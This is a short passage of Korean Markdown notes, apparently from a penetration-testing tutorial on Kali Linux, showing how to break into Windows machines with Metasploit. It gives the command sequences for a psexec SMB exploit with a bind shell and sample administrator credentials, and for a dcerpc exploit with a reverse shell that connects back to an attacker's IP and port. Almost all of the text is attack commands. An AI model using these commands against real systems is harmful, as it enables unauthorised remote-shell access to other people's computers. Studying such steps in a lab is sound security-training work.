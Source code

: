 <br>

#### 3. 침투
- 윈도우 기반 운영체제
	- 윈도우 침투 - 정방향 접속
		- `msfconsole` → `use exploit/windows/smb/psexec`
		- `set payload windows/shell/bind_tcp` → 정방향
		- `set rhosts [ip address]`
		- `set smbuser administrator`
		- `set smbpass P@ssw0rd`
		- `exploit`<br><img src="/assets/img/칼리설치22.png" style="float: left; margin: 0 10px 10px 0; width: 400px;">
		- 대상자 윈도우 OS의 CMD 침투
	- 윈도우 침투 - 역방향 접속
		- `msfconsole` → `use exploit/windows/dcerpc/[취약점 코드]`
		- `set payload windows/shell/reverse_tcp`
		- `set rhost [ip address]` → 공격 대상 IP
		- `set lhost [ip address]` → 공격자 IP
		- `set lport [port]` → 가상으로 광고할 Port(가짜 Port)